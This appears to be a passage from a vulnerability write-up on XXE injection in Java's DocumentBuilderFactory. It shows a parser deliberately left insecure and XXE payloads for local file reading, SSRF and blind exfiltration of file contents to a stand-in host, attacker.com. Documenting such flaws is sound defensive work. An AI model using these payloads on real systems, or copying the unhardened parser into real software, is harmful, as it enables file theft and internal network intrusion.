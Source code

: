 # Technical Details
The vulnerability stems from the default behavior of Java's `DocumentBuilderFactory`, which enables DOCTYPE declarations and external entity processing unless explicitly disabled. In the vulnerable code:

```java
import javax.xml.parsers.DocumentBuilder;
import javax.xml.parsers.DocumentBuilderFactory;
import org.xml.sax.InputSource;
import java.io.StringReader;
import org.w3c.dom.Document;

public class VulnerableXMLParser {
  public Document parseXML(String xmlContent) throws Exception {
    DocumentBuilderFactory factory = DocumentBuilderFactory.newInstance();
    
    // No security features configured - this is the vulnerability
    
    DocumentBuilder builder = factory.newDocumentBuilder();
    return builder.parse(new InputSource(new StringReader(xmlContent)));
  }
}

```

The vulnerability allows for several types of XXE attacks:

1. **Basic XXE for File Reading**:
   ```xml
   <!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///path/to/sensitive/file"> ]>
   
```

2. **Blind XXE with Data Exfiltration**:
   ```xml
   <!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://attacker.com/malicious.dtd"> %xxe;]>
   
```
   Where malicious.dtd contains:
   ```xml
   <!ENTITY % data SYSTEM "file:///path/to/sensitive/file">
   <!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://attacker.com/?data=%data;'>">
   %param1;
   
```

3. **XXE for SSRF**:
   ```xml
   <!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://internal-host:port/api"> ]>
   
```

4. **Entity Expansion DoS**:
   Nested entity references causing exponential expansion and resource exhaustion.
